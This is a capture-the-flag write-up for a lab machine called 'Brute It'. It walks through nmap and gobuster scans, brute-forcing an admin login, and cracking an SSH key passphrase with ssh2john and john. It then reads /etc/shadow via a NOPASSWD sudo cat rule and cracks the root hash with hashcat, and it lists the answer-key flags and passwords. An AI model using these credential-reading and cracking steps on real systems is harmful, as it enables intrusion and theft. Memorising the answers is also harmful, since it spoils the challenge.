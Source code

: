 # Brute It

* IP = 10.10.44.136

## Tasks/Questions:

### Task 1(Deploy):

1. Deploy the machine<br>
*No answers needed*

### Task 2(Reconnaissance):

* Nmap Scan Report:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* GoBuster Scan Report:
```bash
/admin (Status: 301)
```
1. How many ports are open?<br>

**Ans-2**

2. What version of SSH is running?<br>

**Ans-OpenSSH 7.6p1**

3. What version of Apache is running?<br>

**Ans-2.4.29**

4. Which Linux distribution is running?<br>

**Ans-Ubuntu**

5. What is the hidden directory?<br>

**Ans-/admin**

### Task 3(Getting a shell):

* We get a login page at http://IP/admin:<br>

![Screenshot](./assets/1.png)

* Using a python script to brute force with a common wordlist(for ex: rockyou.txt)
* While checking the source, we found some strange comments:<br>
![Screenshot](./assets/2.png)
* So, the username is probably *admin* and *john* maybe a username in the server??!🤔<br>
![Screenshot](./assets/4.png)

1. What is the user:password of the admin panel?<br>

**Ans-admin:xavier**

* Next we login with those credentials and come to this page:<br>
![Screenshot](./assets/3.png)
* Download the ssh private key and extract the private key passphrase hash:
* Using <a href="https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py">ssh2john</a> to extract the ssh passphrase hash:
```bash
python3 ssh2john.py id_rsa > rsa.hash
```
* Crack the hash with:
```
john rsa.hash -wordlist=rockyou.txt -format=ssh
```

2. What is John's RSA Private Key passphrase?<br>

**Ans-rockinroll**

* Login to the *SSH* server with:
```bash
chmod 600 id_rsa
ssh -i id_rsa john@IP
```
* Use the above password<br>
![Screenshot](./assets/5.png)

3. user.txt<br>

**Ans-THM{a_password_is_not_a_barrier}**

4. Web flag<br>

**Ans-THM{brut3_f0rce_is_e4sy}**

### Task 4(Privilege Escalation):

* Checking the sudo group:
```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
* Since /bin/cat is set to NOPASSWD, we can view both the root password hash from **/etc/shadow** and the flag from **/root/root.txt** too.

![Screenshot](./assets/6.png)
* Copy the hash and crack with *hashcat*
```bash
hashcat -m1800 -a0 hash.txt rockyou.txt -O
```
![Screenshot](./assets/7.png)
* Escalate privileges with:

```bash
su root
```

1. What is the root's password?<br>

**Ans-football**

```bash
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

2. Root.txt<br>

**Ans-THM{pr1v1l3g3_3sc4l4t10n}**
